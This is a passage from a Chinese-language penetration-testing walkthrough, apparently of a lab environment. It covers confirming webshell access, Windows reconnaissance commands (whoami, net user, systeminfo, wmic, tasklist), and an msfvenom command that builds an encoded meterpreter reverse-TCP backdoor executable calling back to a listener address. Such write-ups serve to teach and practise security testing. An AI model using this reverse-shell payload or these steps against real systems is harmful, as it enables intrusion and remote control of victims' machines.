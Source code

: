  

④、两个webshell都能正常连接

 ![image-20220626112510299](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261125368.png)



### 四、内网信息收集

```java
whoami ///收集目标机器的身份

hostname /// 显示主机名称

net user ///显示用户

net localgroup administrator ///显示本地管理员组
```

![image-20220615150419249](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151504297.png)

![image-20220615150616100](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151506890.png)

```java
systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本" ///查看系统版本
    
echo %PROCESSOR_ARCHITECTURE%	///查看系统架构，判断是32位的还是64位的，对接下来选择payload架构时非常重要，可以看到是x86
```

![image-20220615152044151](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151520203.png)

```
wmic product get name,version		//查询已安装的软件及版本信息
```

![image-20220615153334790](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151533839.png)

```
查询进程及服务：tasklist 显示映像名称、PID、会话名、内存使用
```

![image-20220615153410260](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151534315.png)

### 五、内网渗透

#### 1、制作后门

**msfvenom 制作一个名为j2w的exe后门**

```
/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i -5 -b 'x80' LHOST=192.168.52.128 LPORT=4444 -f exe >j2w.exe
```

![image-20220615110447130](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151104179.png)
